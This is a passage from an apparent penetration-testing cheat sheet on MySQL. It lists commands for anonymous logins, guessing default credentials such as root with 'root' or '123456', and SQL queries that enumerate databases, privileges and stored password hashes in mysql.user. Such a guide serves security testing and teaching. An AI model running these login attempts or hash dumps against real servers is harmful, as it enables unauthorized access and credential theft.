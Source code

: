#### Anonymous Access
```bash
# Test anonymous connection
mysql -h <target-ip>
mysql -h <target-ip> -u ""
mysql -h <target-ip> -u anonymous
```

#### Default Credentials
```bash
# Common MySQL default credentials
mysql -h <target-ip> -u root
mysql -h <target-ip> -u root -p
mysql -h <target-ip> -u root -proot
mysql -h <target-ip> -u root -pmysql
mysql -h <target-ip> -u root -padmin
mysql -h <target-ip> -u root -ppassword
mysql -h <target-ip> -u root -p123456

# Other common users
mysql -h <target-ip> -u admin -padmin
mysql -h <target-ip> -u mysql -pmysql
mysql -h <target-ip> -u user -puser
```

### Step 3: Database Enumeration

#### Basic Information Gathering
```sql
-- Version and system info
SELECT VERSION();
SELECT SYSTEM_USER();
SELECT USER();
SELECT CURRENT_USER();

-- Database listing
SHOW DATABASES;

-- User enumeration
SELECT user,host,password FROM mysql.user;
SELECT user,host,authentication_string FROM mysql.user;

-- Privilege enumeration
SHOW GRANTS;
SHOW GRANTS FOR 'root'@'localhost';
```

#### System Configuration
```sql
-- System variables
SHOW VARIABLES;
SHOW VARIABLES LIKE 'version%';
SHOW VARIABLES LIKE 'datadir%';
SHOW VARIABLES LIKE 'secure_file_priv%';

-- Process list
SHOW PROCESSLIST;

-- Status information
SHOW STATUS;
```

---